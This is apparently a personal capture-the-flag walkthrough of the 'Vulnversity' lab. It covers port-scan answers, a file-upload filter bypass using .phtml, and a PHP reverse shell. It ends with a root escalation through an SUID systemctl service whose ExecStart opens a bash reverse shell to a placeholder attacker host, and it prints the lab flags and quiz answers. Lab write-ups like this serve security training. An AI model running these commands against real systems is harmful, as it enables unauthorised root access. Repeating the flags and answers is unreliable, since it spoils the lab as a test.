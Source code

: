 # Vulnversity

## task 2 
 Q. Scan the box; how many ports are open?
 A. 6

 Q. What version of the squid proxy is running on the machine?
 A. 4.10

 Q. How many ports will Nmap scan if the flag -p-400 was used?
 A. 400

 Q. What is the most likely operating system this machine is running?
 A. Ubuntu

 Q. What port is the web server running on?
 A. 3333

 Q. What is the flag for enabling verbose mode using Nmap?
 A. -v


$ nmap -sV 10.201.30.38                

	PORT     STATE SERVICE     VERSION
	21/tcp   open  ftp         vsftpd 3.0.5
	22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
	139/tcp  open  netbios-ssn Samba smbd 4
	445/tcp  open  netbios-ssn Samba smbd 4
	3128/tcp open  squid-http?
	3333/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

found hidden directories:
images                  [Status: 200, Size: 7206, Words: 356, Lines: 48, Duration: 270ms]
css                     [Status: 200, Size: 4090, Words: 208, Lines: 32, Duration: 242ms]
js                      [Status: 200, Size: 4638, Words: 278, Lines: 34, Duration: 249ms]
fonts                   [Status: 200, Size: 1538, Words: 100, Lines: 20, Duration: 272ms]
internal                [Status: 200, Size: 525, Words: 62, Lines: 27, Duration: 280ms]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 320ms]

/internal/ has file uploading vulnerability.

get reverse shell from :
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


all php exetentions: 
.php
.php3
.php4
.php5
.phtml

tried all extentions with burp intruder.
only .phtml successfully uploaded.

got the php reverseshell.


found the user flag: 
/home/bill/user.txt:
8bd7992fbe8a6ad22a63361004cfcedb


in systemctl suid bit was set.
so what is done is 

SUID bit on /bin/systemctl is very very vulnerable.
-
cat << EOF > /tmp/rootme.service
[Unit]
Description=root me brooo

[Service]
type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/hacker-ip/hacker-port 0>&1'

[Install]
Wantedby=multi-user.target


before linking and starting the service open the port on listening mode on local machine
$ nc -lnvp hacker-port

on remote machine start the service:
$ /bin/systemctl link /tmp/rootme.service
$ /bin/systemctl start rootme.service


wallah connected to server as root!!!!!

got the flag:
cat /root/root.txt
a58ff8579f0a9270368d33a9966c7fd5

